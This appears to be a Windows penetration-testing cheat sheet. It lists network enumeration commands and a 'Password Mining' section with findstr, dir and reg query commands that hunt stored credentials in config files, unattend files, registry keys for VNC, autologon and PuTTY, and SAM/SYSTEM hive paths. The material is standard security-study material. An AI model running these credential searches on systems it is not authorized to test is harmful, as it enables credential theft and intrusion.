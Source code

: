 -   ipconfig
-   ipconfig /all
-	arp -a
-	route print
-	netstat -ano
-   netstat -anop tcp
-   netstat -anop udp

##	Password Mining
-	Win Logon creds
-	Registry password 
-	SAM system backup, [REPAIR/BACKUP]
-	DPAPI Creds
-	Passwords of saved wifi
-	saved RDP Connections
-	Recent run commands / Powershell history
-	Remote Desktop Credentials Manager passwords?
-	Grep commands for finding password
-	findstr /si password *.txt *.ini *.config *.xml
-	Find all those strings in config files.
	-	dir /s *pass* == *cred* == *vnc* == *.config*
- Find all passwords in all files.
	-	findstr /spin "password" *.*
	-	findstr /spin "password" *.*
```
These are common files to find them in. They might be base64-encoded. So look out for that.
-------------------------------------------------------------------------------------------
In Files
-------------
c:\sysprep.inf
c:\sysprep\sysprep.xml
c:\unattend.xml
%WINDIR%\Panther\Unattend\Unattended.xml
%WINDIR%\Panther\Unattended.xml

dir c:\*vnc.ini /s /b
dir c:\*ultravnc.ini /s /b 
dir c:\ /s /b | findstr /si *vnc.ini

In Registry
------------------
# VNC
reg query "HKCU\Software\ORL\WinVNC3\Password"

# Windows autologin
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"

# SNMP Paramters
reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP"

# Putty
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"

# Search for password in registry
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
---------------------------------------------------
SAM and SYSTEM files
------------------------
# Usually %SYSTEMROOT% = C:\Windows
%SYSTEMROOT%\repair\SAM
%SYSTEMROOT%\System32\config\RegBack\SAM
%SYSTEMROOT%\System32\config\SAM
```
